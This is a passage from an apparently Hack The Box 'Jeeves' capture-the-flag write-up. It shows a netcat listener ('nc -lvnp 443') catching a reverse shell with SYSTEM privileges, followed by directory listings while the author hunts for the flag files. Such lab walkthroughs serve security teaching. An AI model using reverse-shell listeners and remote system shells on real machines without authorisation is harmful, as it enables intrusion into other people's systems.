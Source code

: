 I started the netcat listener at port 443 and got the shell →

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Jeeves]
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.63] 49783
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator

11/03/2017  10:07 PM    <DIR>          .
11/03/2017  10:07 PM    <DIR>          ..
11/03/2017  09:43 PM    <DIR>          .groovy
12/30/2023  12:39 PM    <DIR>          .jenkins
11/03/2017  09:03 PM    <DIR>          Contacts
11/08/2017  09:05 AM    <DIR>          Desktop
11/03/2017  09:03 PM    <DIR>          Documents
11/03/2017  09:33 PM    <DIR>          Downloads
11/03/2017  09:03 PM    <DIR>          Favorites
11/03/2017  09:16 PM    <DIR>          Links
11/03/2017  09:03 PM    <DIR>          Music
11/03/2017  09:16 PM    <DIR>          OneDrive
11/03/2017  09:03 PM    <DIR>          Pictures
11/03/2017  09:03 PM    <DIR>          Saved Games
11/03/2017  09:10 PM    <DIR>          Searches
11/03/2017  09:03 PM    <DIR>          Videos
               0 File(s)              0 bytes
              16 Dir(s)   2,497,990,656 bytes free

C:\Users\Administrator>
```
{: .nolineno}
{: .nolineno}

I got the user.txt file and for root.txt I got this message →

```powershell
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  09:05 AM    <DIR>          .
11/08/2017  09:05 AM    <DIR>          ..
12/24/2017  02:51 AM                36 hm.txt
11/08/2017  09:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,497,990,656 bytes free

```